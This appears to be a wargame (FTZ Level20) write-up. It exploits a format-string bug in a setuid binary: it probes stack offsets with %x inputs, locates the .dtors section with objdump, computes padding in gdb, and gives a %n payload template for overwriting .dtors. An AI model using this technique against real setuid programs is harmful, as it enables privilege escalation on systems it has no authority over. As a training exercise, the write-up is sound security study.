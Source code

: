# Level20 (Final Level)

## This level's goal
- FSB

***

```
[level20@ftz level20]$ ls -l
-rwsr-sr-x    1 clear    clear       11777 Jun 18  2008 attackme
-rw-r-----    1 root     level20       133 May 13  2002 hint

[level20@ftz level20]$ cat hint

#include <stdio.h>
main(int argc,char **argv)
{ 
  char bleh[80];
  setreuid(3101,3101);
  fgets(bleh,79,stdin);
  printf(bleh);
}
```

In the hint, I could see the printf(bleh) that I might exploit with FSB.

```
[level20@ftz level20]$ ./attackme
AAA
AAA
[level20@ftz level20]$ ./attackme
%x
4f
[level20@ftz level20]$ ./attackme
AAAA %x %x %x %x
AAAA 4f 4212ecc0 4207a750 41414141
```

4f means 79 in decimal, it seeams that I could exploit in fourth.

```
[level20@ftz level20]$ gdb tmp/attackme
(gdb) disass main
No symbol "main" in current context.
```

I could not see the symbol, so I will get information with objdump.

```
[level20@ftz level20]$ objdump -h attackme

attackme:     file format elf32-i386

Sections:
Idx Name          Size      VMA       LMA       File off  Algn

 18 .dtors        00000008  08049594  08049594  00000594  2**2
                  CONTENTS, ALLOC, LOAD, DATA

[level20@ftz tmp]$ gdb -q attackme
(gdb) p 0xfc8e - 0x28
$1 = 64614
(gdb) p 0x1bfff - 0xfc8e
$2 = 50033
```

__DOTR-List's address is 0x08049594 which I will exploit with this.

The attack code format   
`$(printf "AAAAAddress1BBBBAddress2")%8x%8x%8x%Value1c%n%Value2c%n`





